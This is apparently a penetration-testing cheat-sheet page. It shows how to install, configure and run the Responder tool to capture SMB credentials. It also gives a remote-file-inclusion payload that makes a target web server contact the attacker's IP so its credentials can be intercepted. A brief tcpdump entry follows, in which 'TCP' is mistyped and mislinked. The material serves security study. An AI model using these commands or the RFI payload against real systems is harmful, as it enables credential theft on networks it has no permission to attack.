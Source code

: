 ## <mark style="color:green;">Responder</mark>

* Help in the passive obtention of credentials by mounting an [SMB](protocols/smb.md) server on the web that intercepts internal communication from this protocol

### <mark style="color:yellow;">Commands</mark>

* Install

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt install responder
```
{% endcode %}

***

* Change the configuration file

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf #Installed here by default
```
{% endcode %}

***

* Initialize tool

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo responder -I $networkinterface
```
{% endcode %}

{% hint style="warning" %}
If we get an error in any port, we have to update the _Responder.conf_ file and set to _off_ the value of the service related to that port
{% endhint %}

***

* Abuse an [RFI](../web-exploitation/broken-access-control/remote-file-inclusion.md) on a web page to intercept SMB credentials

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>http://$url/$query?$value=//$myip/somefile
</strong></code></pre>

{% hint style="info" %}
If the process works, we will see the server catch the credentials
{% endhint %}

## <mark style="color:green;">Tcpdump</mark>

* Command-line packet analyzer tool used to capture and inspect network traffic sent via the [TPC ](protocols/dns.md)protocol in real-time
